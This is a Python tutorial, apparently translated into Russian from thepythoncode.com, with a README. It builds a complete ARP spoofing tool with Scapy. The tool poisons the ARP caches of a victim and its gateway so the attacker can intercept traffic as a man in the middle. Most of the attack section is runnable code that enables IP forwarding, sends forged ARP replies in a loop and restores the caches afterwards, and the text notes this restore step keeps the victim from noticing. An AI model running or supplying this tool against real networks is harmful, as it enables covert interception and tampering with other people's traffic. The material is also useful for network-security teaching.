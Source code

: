 # [Building an ARP Spoofer](https://www.thepythoncode.com/article/building-arp-spoofer-using-scapy)
to run this:
- `pip3 install -r requirements.txt`
- 
    ```
    python3 arp_spoof.py --help
    ```
    **Output**:
    ```
    usage: arp_spoof.py [-h] [-v] target host

    ARP spoof script

    positional arguments:
    target         Victim IP Address to ARP poison
    host           Host IP Address, the host you wish to intercept packets for
                    (usually the gateway)

    optional arguments:
    -h, --help     show this help message and exit
    -v, --verbose  verbosity, default is True (simple message each second)
    ```
    For instance, if you want to spoof **192.168.1.2** and the gateway is **192.168.1.1**:
    ```
    python3 arp_spoof 192.168.1.2 192.168.1.1 --verbose
    ```
##
# [Building an ARP Spoofer](https://www.thepythoncode.com/article/building-arp-spoofer-using-scapy)
Что такое ARP Спуфинг
Короче говоря, это метод получения ситуации «человек посередине». Технически говоря, это метод, с помощью которого злоумышленник отправляет поддельные ARP-пакеты (ложные пакеты) в сеть (или конкретные хосты), позволяя злоумышленнику перехватывать, изменять или модифицировать сетевой трафик на лету.

Как только вы (как злоумышленник) станете человеком посередине, вы можете буквально перехватить или изменить все, что проходит в или из устройства жертвы. Итак, в этом уроке мы напишем скрипт Python, чтобы сделать именно это.

В обычной сети все устройства обычно обмениваются данными со шлюзом, а затем с Интернетом, как показано на следующем рисунке:

Регулярная сеть

Теперь злоумышленнику необходимо отправить ARP-ответы обоим хостам:

Отправка ARP-ответа шлюзу со словами«У меня есть IP-адрес жертвы».
Отправка ARP-ответа жертве, в котором говорится, что «у меня есть IP-адрес шлюза».
Подделка ARP

Как только злоумышленник выполнит атаку ARP Spoof, как показано на предыдущем рисунке, он окажется в ситуации «человек посередине»:

Человек в средней ситуацииВ этот момент, как только жертва отправляет какой-либо пакет (например, HTTP-запрос), он сначала передается на машину злоумышленника. Затем он перенаправит пакет на шлюз, поэтому, как вы можете заметить, жертва не знает об этой атаке. Другими словами, они не смогут понять, что на них нападают.

Ладно, хватит теории! Прежде чем мы начнем, вам необходимо установить необходимые библиотеки:
    ```
	pip3 install scapy
    ```
Проверьте этот учебник, чтобы заставить Scapy правильно работать на вашем компьютере, если вы используете Windows. Дополнительно необходимо установить pywin32, например:

    ```
	pip3 install pywin32
    ```

Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book
Написание скрипта Python
Прежде всего, нам нужно импортировать необходимые модули:
    ```
from scapy.all import Ether, ARP, srp, send
import argparse
import time
import os
import sys
    ```
Примечание: Вам нужно иметь библиотеку Scapy, установленную на вашем компьютере, перейдите к этому сообщению или официальному веб-сайту Scapy.

В начале я должен упомянуть, что нам нужно включить IP-пересылку.

Существует множество способов включения IP-маршрутизации на различных платформах. Тем не менее, я сделал модуль python здесь, чтобы включить IP-маршрутизацию в Windows, не беспокоясь ни о чем.

Для Unix-подобных пользователей (платформа, предлагаемая для этого учебника) вам нужно отредактировать файл "/proc/sys/net/ipv4/ip_forward", который требует доступа root, и поставить значение 1, которое указывает как включенное. Ознакомьтесь с этим руководством для получения дополнительной информации. Эта функция делает это в любом случае:
    ```
def _enable_linux_iproute():
    """
    Enables IP route ( IP Forward ) in linux-based distro
    """
    file_path = "/proc/sys/net/ipv4/ip_forward"
    with open(file_path) as f:
        if f.read() == 1:
            # already enabled
            return
    with open(file_path, "w") as f:
        print(1, file=f)
    ```
Для пользователей Windows после копирования services.py в текущий каталог можно скопировать и вставить следующую функцию:
    ```
def _enable_windows_iproute():
    """
    Enables IP route (IP Forwarding) in Windows
    """
    from services import WService
    # enable Remote Access service
    service = WService("RemoteAccess")
    service.start()
    ```
Приведенная ниже функция управляет включением IP-маршрутизации на всех платформах:
    ```
def enable_ip_route(verbose=True):
    """
    Enables IP forwarding
    """
    if verbose:
        print("[!] Enabling IP Routing...")
    _enable_windows_iproute() if "nt" in os.name else _enable_linux_iproute()
    if verbose:
        print("[!] IP Routing enabled.")
    ```
Теперь давайте перейдем к классным вещам. Во-первых, нам нужна функция утилиты, которая позволяет нам получить MAC-адрес любой машины в сети:
    ```
def get_mac(ip):
    """
    Returns MAC address of any device connected to the network
    If ip is down, returns None instead
    """
    ans, _ = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip), timeout=3, verbose=0)
    if ans:
        return ans[0][1].src
    ```
Связанные с: Как сделать изменение MAC-адреса в Python

Мы используем функцию srp() Scapy, которая отправляет запросы в виде пакетов и продолжает прослушивать ответы; в этом случае мы отправляем запросы ARP и прослушиваем любые ответы ARP.

Во-вторых, мы собираемся создать функцию, которая выполняет основную работу этого учебника; учитывая целевой IP-адрес и IP-адрес хоста, он изменяет кэш ARP целевого IP-адреса, говоря, что у нас есть IP-адрес хоста:
    ```
def spoof(target_ip, host_ip, verbose=True):
    """
    Spoofs `target_ip` saying that we are `host_ip`.
    it is accomplished by changing the ARP cache of the target (poisoning)
    """
    # get the mac address of the target
    target_mac = get_mac(target_ip)
    # craft the arp 'is-at' operation packet, in other words; an ARP response
    # we don't specify 'hwsrc' (source MAC address)
    # because by default, 'hwsrc' is the real MAC address of the sender (ours)
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, op='is-at')
    # send the packet
    # verbose = 0 means that we send the packet without printing any thing
    send(arp_response, verbose=0)
    if verbose:
        # get the MAC address of the default interface we are using
        self_mac = ARP().hwsrc
        print("[+] Sent to {} : {} is-at {}".format(target_ip, host_ip, self_mac))
    ```
Связанные с: Создание 24 этических хакерских скриптов и инструментов с помощью Python Book

Приведенный выше код получает MAC-адрес цели, создает вредоносный пакет ответа (ответа) ARP, а затем отправляет его.

Как только мы захотим остановить атаку, нам нужно переназначить реальные адреса целевому устройству (а также шлюзу), если мы этого не сделаем, жертва потеряет подключение к Интернету, и будет очевидно, что что-то произошло, мы не хотим этого делать, мы отправим семь законных пакетов ответа ARP (обычная практика) последовательно:
    ```
def restore(target_ip, host_ip, verbose=True):
    """
    Restores the normal process of a regular network
    This is done by sending the original informations 
    (real IP and MAC of `host_ip` ) to `target_ip`
    """
    # get the real MAC address of target
    target_mac = get_mac(target_ip)
    # get the real MAC address of spoofed (gateway, i.e router)
    host_mac = get_mac(host_ip)
    # crafting the restoring packet
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, hwsrc=host_mac, op="is-at")
    # sending the restoring packet
    # to restore the network to its normal process
    # we send each reply seven times for a good measure (count=7)
    send(arp_response, verbose=0, count=7)
    if verbose:
        print("[+] Sent to {} : {} is-at {}".format(target_ip, host_ip, host_mac))
    ```
Это было похоже на функцию spoof(), и единственное отличие заключается в том, что она отправляет несколько легитимных пакетов. Другими словами, он посылает правдивую информацию.

Теперь нам нужно будет написать основной код, который подделывает оба; цель и хост (шлюз) бесконечно до тех пор, пока не будет обнаружен CTRL+C, поэтому мы восстановим исходные адреса:
    ```
if __name__ == "__main__":
    # victim ip address
    target = "192.168.1.100"
    # gateway ip address
    host = "192.168.1.1"
    # print progress to the screen
    verbose = True
    # enable ip forwarding
    enable_ip_route()
    try:
        while True:
            # telling the `target` that we are the `host`
            spoof(target, host, verbose)
            # telling the `host` that we are the `target`
            spoof(host, target, verbose)
            # sleep for one second
            time.sleep(1)
    except KeyboardInterrupt:
        print("[!] Detected CTRL+C ! restoring the network, please wait...")
        restore(target, host)
        restore(host, target)
    ```
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Я запустил сценарий на машине Linux. Вот скриншот моего результата:

Результат выполнения скрипта ARP Spoof

В этом примере я использовал свой персональный компьютер в качестве жертвы. Если вы попытаетесь проверить кэш ARP:

После атаки подмены ARP

Вы увидите, что MAC-адрес злоумышленника (в данном случае «192.168.1.105») совпадает с адресом шлюза. Мы абсолютно одурачены!

На компьютере злоумышленника, когда вы нажимаете CTRL + C, чтобы закрыть программу, вот скриншот процесса восстановления:

Восстановление исходных адресов

Вернувшись к компьютеру жертвы, вы увидите, что исходный MAC-адрес шлюза восстановлен: